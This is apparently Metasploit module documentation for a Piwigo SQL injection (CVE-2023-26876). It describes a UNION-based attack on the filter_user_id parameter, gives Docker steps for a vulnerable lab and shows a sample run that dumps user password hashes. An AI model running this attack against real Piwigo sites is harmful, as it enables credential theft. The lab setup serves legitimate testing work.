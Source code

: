 ## Description

  This module exploits a authenticated SQL injection vulnerability in Piwigo's photo galery for versions below 13.5.0. By using a UNION query on the `filter_user_id` parameter, this module can steal the usernames and password hashes of all users of Piwigo.

## Vulnerable Application

   Install docker [https://docker.io](docker.io) and follow the steps bellow:

   1 - Dockerfile with vulnerable version
   
   ```dockerfile

    FROM alpine:3.10.3
    LABEL maintainer="Moritz Heiber <hello@heiber.im>"

    ENV PIWIGO_VERSION="13.5.0"
    RUN set -x && apk --no-cache add curl php7 php7-gd php7-mysqli php7-json php7-session php7-exif && \
      curl "http://piwigo.org/download/dlcounter.php?code=${PIWIGO_VERSION}" --output piwigo.zip && \
      adduser -h /piwigo -DS piwigo && unzip piwigo.zip -d /piwigo && \
      install -d -o piwigo /piwigo/piwigo/galleries /piwigo/piwigo/upload && \
      chown -R piwigo /piwigo/piwigo/local && \
      apk --no-cache del curl && rm piwigo.zip

    WORKDIR /piwigo
    USER piwigo

    CMD ["php","-S","0.0.0.0:8000","-t","piwigo"]
   
   ```
   2 - install `docker-compose` and create the following file:

   ```yaml 
           version: '3'
        services:
          piwigo:
            container_name: piwigo
            image: piwigo-docker
            networks:
              - piwigo
            ports:
              - "8000:8000"
          mysql:
            container_name: piwigo_mysql
            image: arm64v8/mysql
            command: ["--default-authentication-plugin=mysql_native_password"]
            networks:
              - piwigo
            environment:
              MYSQL_USER: "piwigo"
              MYSQL_PASSWORD: "piwigo"
              MYSQL_DATABASE: "piwigo"
              MYSQL_RANDOM_ROOT_PASSWORD: "true"

        networks:
          piwigo:
   ```
   3 - Execute the following commands

   ```bash
   $ docker build -t piwigo-docker ./
   $ docker-compose up -d
   # then Piwigo's installation page should be available at http://localhost:8000.
   # The default value for the database URL is mysql, the user is piwigo and the password is piwigo again. The initial database being created is called piwigo.
   ```

## Scenarios

### Tested on Ubuntu 22.04.2 Running Pimcore v13.5.0

```
msf6 auxiliary(gather/piwigo_cve_2023_26876) > reload
[*] Reloading module...
msf6 auxiliary(gather/piwigo_cve_2023_26876) > run
[*] Running module against 127.0.0.1

[*] try to log in..
[+] successfully logged into Piwigo!!
[+] target is vulnerable
[+] get your l00t $

Piwigo Users
============

 username  hash
 --------  ----
 admin     $P$GAO2fLIGJtRyQCNf96KbQ9PeiDAuii/
 guest
 piwigo    $P$GNrJljahQW2NXTXhWNZdalgGiao/T1/
 user      $P$GE/wX1wqKM0WKkAGXvhYihdPhgl5Mw/

[*] Auxiliary module execution completed
msf6 auxiliary(gather/piwigo_cve_2023_26876) > 

```
